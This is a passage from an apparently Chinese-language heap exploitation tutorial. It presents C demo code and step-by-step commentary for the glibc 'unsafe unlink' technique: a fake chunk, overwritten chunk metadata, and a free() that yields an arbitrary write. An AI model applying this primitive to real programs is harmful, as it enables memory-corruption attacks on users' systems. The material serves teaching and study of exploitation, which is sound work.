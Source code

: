 ```c
	chunk0_ptr[3] = (uint64_t) &chunk0_ptr-(sizeof(uint64_t)*2);
	printf("Fake chunk fd: %p\n",(void*) chunk0_ptr[2]);
	printf("Fake chunk bk: %p\n",(void*) chunk0_ptr[3]);

	printf("We assume that we have an overflow in chunk0 so that we can freely change chunk1 metadata.\n");
	uint64_t *chunk1_hdr = chunk1_ptr - header_size;
	printf("We shrink the size of chunk0 (saved as 'previous_size' in chunk1) so that free will think that chunk0 starts where we placed our fake chunk.\n");
	printf("It's important that our fake chunk begins exactly where the known pointer points and that we shrink the chunk accordingly\n");
	chunk1_hdr[0] = malloc_size;
	printf("If we had 'normally' freed chunk0, chunk1.previous_size would have been 0x90, however this is its new value: %p\n",(void*)chunk1_hdr[0]);
	printf("We mark our fake chunk as free by setting 'previous_in_use' of chunk1 as False.\n");
	chunk1_hdr[1] &= ~1;

	printf("Now we free chunk1 so that consolidate backward will unlink our fake chunk, overwriting chunk0_ptr.\n");
	printf("You can find the source of the unlink macro at https://sourceware.org/git/?p=glibc.git;a=blob;f=malloc/malloc.c;h=ef04360b918bceca424482c6db03cc5ec90c3e00;hb=07c18a008c2ed8f5660adba2b778671db159a141#l1344\n");
	free(chunk1_ptr);

	printf("At this point we can use chunk0_ptr to overwrite itself to point to an arbitrary location.\n");
	char victim_string[8];
	strcpy(victim_string,"Hello!~");
	chunk0_ptr[3] = (uint64_t) victim_string;

	printf("chunk0_ptr is now pointing where we want, we use it to overwrite our victim string.\n");
	printf("Original value: %s\n",victim_string);
	chunk0_ptr[0] = 0x4141414142424242LL;
	printf("New Value: %s\n",victim_string);
}
```

1.申请两个大小为0x80的堆块:

```c
    chunk0_ptr = (uint64_t*) malloc(malloc_size); //chunk0
    uint64_t *chunk1_ptr  = (uint64_t*) malloc(malloc_size); //chunk1
```


2.在chunk0中构建一个伪的堆块，以chunk0_ptr为起始地址

```c
   chunk0_ptr[2] = (uint64_t) &chunk0_ptr-(sizeof(uint64_t)*3);
   chunk0_ptr[3] = (uint64_t) &chunk0_ptr-(sizeof(uint64_t)*2);
```

   ![http://pic.wonderkun.cc/uploads/2017/12/4.png](http://pic.wonderkun.cc/uploads/2017/12/4.png)
	 